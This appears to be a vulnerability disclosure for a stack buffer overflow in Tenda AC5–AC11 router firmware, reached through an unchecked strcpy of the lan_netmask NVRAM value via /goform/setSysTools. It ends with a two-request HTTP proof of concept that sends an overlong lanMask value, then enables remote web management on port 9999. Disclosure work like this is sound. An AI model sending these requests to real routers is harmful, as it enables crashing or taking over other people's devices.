






# Tenda Router Vulnerability

This vulnerability exists in  module `remoteWeb` of  `/goform/setSysTools`  and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `sub_80073B88` function.(page  /goform/getSysTools in module remoteWeb)



In this function, it will use `nvram_get("lan_netmask");` to get an NVRAM variable, which is then placed in a `V3` variable. After that ,it will use `Strcpy (v6, v3);` to put V3 on V6 without any security check.



The  `lan_netmask`  NVRAM variable can be controlled in the `sub_8007DB28` function.

You can see that it's assigned by `v12`.



Initially `v12` is what we inputed, so the `lan_netmask` NVRAM variable becomes manageable.

`sub_800119BC ("lan_netmask", V12)`  is required to return 0 in order to set the lan_netmask NVRAM variable properly.



In the function `sub_800119BC`, it will first get the original NVRAM variable of `lan_netmask` and compare it with V2. In the `strcmp` function, if two arguments are the same, it returns 0. Therefore, if V2 is different from the original value of the NVRAM variable `lan_netmask`, the function `sub_800119BC` will return 0.

At this point, the NVRAM variable `lan_netmask` has been successfully controlled, and then we need to determine how to jump to `sub_80073B88` to trigger the vulnerability.

By looking at the xrefs to  the function `sub_80073B88` ，you can find such a chain of program calls.

`cgi_lib_set_remote_info` → `sub_80073D0C`→`sub_80073B88`




For the process `LABEL_14` in the `cgi_lib_set_remote_info` function, simply make the `remoteWebEn` input false and set a remote administration Web port that is not its own. For example, 9999.




Thus, by first setting `lanMask` in the lanCfg module of  `/goform/setSysTools`, and then setting `remoteWebEn` and `remoteWebPort` in the remoteWeb module of `/goform/setsystools`, An attacker can easily use elaborate overflow data to perform a denial-of-service attack or remote code execution.

## POC

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=lanCfg&lanIP=192.168.0.1&lanMask=255.255.255.0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&dhcpEn=true&lanDhcpStartIP=192.168.0.100&lanDhcpEndIP=192.168.0.200&lanDns1=192.168.0.1&lanDns2=
```

```
POST /goform/setSysTools HTTP/1.1
Host: 192.168.0.1
Content-Length: 500
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=remoteWeb&remoteWebEn=true&remoteWebType=any&remoteWebIP=&remoteWebPort=9999
```